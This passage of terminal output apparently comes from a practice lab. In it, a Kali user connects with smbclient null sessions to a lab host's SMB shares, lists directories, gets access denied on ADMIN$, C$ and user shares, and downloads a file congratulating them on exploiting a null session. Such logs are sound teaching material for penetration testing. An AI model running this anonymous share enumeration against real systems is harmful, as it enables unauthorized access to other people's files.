  .                                   D        0  Wed Feb 18 06:07:31 201
  ..                                  D        0  Wed Feb 18 06:07:31 201
  Congratulations.txt                 A       66  Wed Feb 18 04:41:59 201

                785224 blocks of size 4096. 345669 blocks available
smb: \> get Contragulations.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Contragulations.txt
smb: \> lcd /tmp
smb: \> get Congratulations.txt
getting file \Congratulations.txt of size 66 as Congratulations.txt (0.1 /sec) (average 0.1 KiloBytes/sec)
smb: \> 

┌──(kali㉿kali)-[/tmp]
└─$ cat Congratulations.txt                                                   1 ⨯
Congratulations! You have successfully exploited a null session!

```

```
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/My\ Documents -N
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Wed Feb 18 06:07:14 2015
  ..                                 DR        0  Wed Feb 18 06:07:14 2015
  desktop.ini                       AHS       74  Thu Feb 12 19:55:53 2015
  My Music                           DR        0  Thu Feb 12 19:55:53 2015
  My Pictures                        DR        0  Thu Feb 12 19:55:53 2015

                785224 blocks of size 4096. 345682 blocks available
smb: \> cd My Music
cd \My\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \> ls
  .                                  DR        0  Wed Feb 18 06:07:14 2015
  ..                                 DR        0  Wed Feb 18 06:07:14 2015
  desktop.ini                       AHS       74  Thu Feb 12 19:55:53 2015
  My Music                           DR        0  Thu Feb 12 19:55:53 2015
  My Pictures                        DR        0  Thu Feb 12 19:55:53 2015

                785224 blocks of size 4096. 345682 blocks available
smb: \> cd "My Music"
smb: \My Music\> ls
  .                                  DR        0  Thu Feb 12 19:55:53 2015
  ..                                 DR        0  Thu Feb 12 19:55:53 2015
  Desktop.ini                       AHS      179  Thu Feb 12 19:55:53 2015
  Sample Music.lnk                    A      638  Thu Feb 12 19:55:27 2015

                785224 blocks of size 4096. 345682 blocks available
smb: \My Music\> cd "../My Pictures"
smb: \My Pictures\> ls
  .                                  DR        0  Thu Feb 12 19:55:53 2015
  ..                                 DR        0  Thu Feb 12 19:55:53 2015
  Desktop.ini                       AHS      181  Thu Feb 12 19:55:53 2015
  Sample Pictures.lnk                 A      668  Thu Feb 12 19:55:27 2015

                785224 blocks of size 4096. 345682 blocks available
smb: \My Pictures\> exit
                                                                                  
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/Frank -N        
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
                                                                                  
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/FrankDocs -N
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
                                                                                  
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/ADMIN\$ -N  
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
tree connect failed: NT_STATUS_ACCESS_DENIED
                                                                                  
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/C\$ -N                                         1 ⨯
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
tree connect failed: NT_STATUS_ACCESS_DENIED
                                                                                  
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.99.162/IPC\$ -N                                       1 ⨯
lpcfg_do_global_parameter: WARNING: The "client use spnego" option is deprecated
lpcfg_do_global_parameter: WARNING: The "client ntlmv2 auth" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
                     
```